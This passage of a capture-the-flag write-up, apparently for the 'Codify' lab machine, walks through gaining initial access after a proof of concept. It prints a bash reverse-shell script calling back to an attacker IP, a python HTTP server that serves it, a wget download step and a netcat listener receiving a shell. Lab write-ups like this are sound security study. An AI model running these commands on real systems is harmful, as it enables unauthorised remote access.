 
*Credits: [Xion](https://twitter.com/0x10n)*

Let's execute the PoC  
![](https://live.staticflickr.com/65535/53505728296_d306a5358f_o.png){.maxH300}

---

## 🎯 **Exploit**

Confirmed the PoC, it is time to exploit it, let's start searching bash directory  
![](https://live.staticflickr.com/65535/53505879663_dfcf6a339c_o.png){.maxH300}

Also checking if we have access to `wget`, so we can send stuff to the machine  
![](https://live.staticflickr.com/65535/53505728306_6194f9fb0b_o.png){.maxH300}

Preparing a basic Reverse Shell script on Attacker Machine
```bash
vim r.sh
cat r.sh
#!/usr/bin/bash
bash -i >& /dev/tcp/10.10.14.12/13337 0>&1
```

Serving Reverse Shell script from the Attacker Machine
```bash
python -m http.server 12345
Serving HTTP on 0.0.0.0 port 12345 (http://0.0.0.0:12345/) ...
```

Running `wget` to download the Reverse Shell from the Attacker Machine  
![](https://live.staticflickr.com/65535/53505728266_cce3a47dd2_o.png){.maxH300}

Checking script permissions  
![](https://live.staticflickr.com/65535/53506039244_a3e6ab6479_o.png){.maxH300}

Giving eXecution permission
![](https://live.staticflickr.com/65535/53506150060_90a41fc479_o.png){.maxH300}

Setting Netcat Listener on Attacker Machine
```bash
nc -lnvp 13337
listening on [any] 13337 ...
```

### **Initial Access**  

Running the Reverse Shell
![](https://live.staticflickr.com/65535/53506039234_551ed99589_o.png){.maxH300}

### **Listening on Netcat**
We got an access
```bash
nc -lnvp 13337
listening on [any] 13337 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.239] 47986
bash: cannot set terminal process group (1262): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$
```
